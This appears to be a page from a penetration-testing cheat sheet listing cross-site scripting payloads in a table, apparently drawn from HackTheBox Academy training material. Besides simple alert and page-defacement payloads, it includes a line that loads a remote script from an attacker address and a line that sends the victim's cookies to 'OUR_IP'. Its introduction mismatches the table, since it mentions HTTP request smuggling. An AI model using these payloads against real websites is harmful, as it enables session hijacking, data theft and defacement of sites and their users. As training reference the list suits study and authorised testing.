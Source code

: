 # Targeted Test Cases

{% tabs %}
{% tab title="XSS" %}
Tools like smuggler.py (Python) can be used to identify potential HTTP request smuggling vulnerabilities.

| Code                                                                                                                                                                                                                                                                                                                                                                                                  | Description                                |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------ |
| `<script>alert(window.origin)</script>`                                                                                                                                                                                                                                                                                                                                                               | Basic XSS Payload                          |
| `<plaintext>`                                                                                                                                                                                                                                                                                                                                                                                         | Basic XSS Payload                          |
| `<script>print()</script>`                                                                                                                                                                                                                                                                                                                                                                            | Basic XSS Payload                          |
| `<img src="" onerror=alert(window.origin)>`                                                                                                                                                                                                                                                                                                                                                           | HTML-based XSS Payload                     |
| `<script>document.body.style.background = "#141d2b"</script>`                                                                                                                                                                                                                                                                                                                                         | Change Background Color                    |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`                                                                                                                                                                                                                                                                                                         | Change Background Image                    |
| `<script>document.title = 'HackTheBox Academy'</script>`                                                                                                                                                                                                                                                                                                                                              | Change Website Title                       |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                                                                                                                                                                                                                                                                                                                        | Overwrite website's main body              |
| `<script>document.getElementById('urlform').remove();</script>`                                                                                                                                                                                                                                                                                                                                       | Remove certain HTML element                |
| `<script src="http://OUR_IP/script.js"></script>`                                                                                                                                                                                                                                                                                                                                                     | Load remote script                         |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`                                                                                                                                                                                                                                                                                                                       | Send Cookie details to us                  |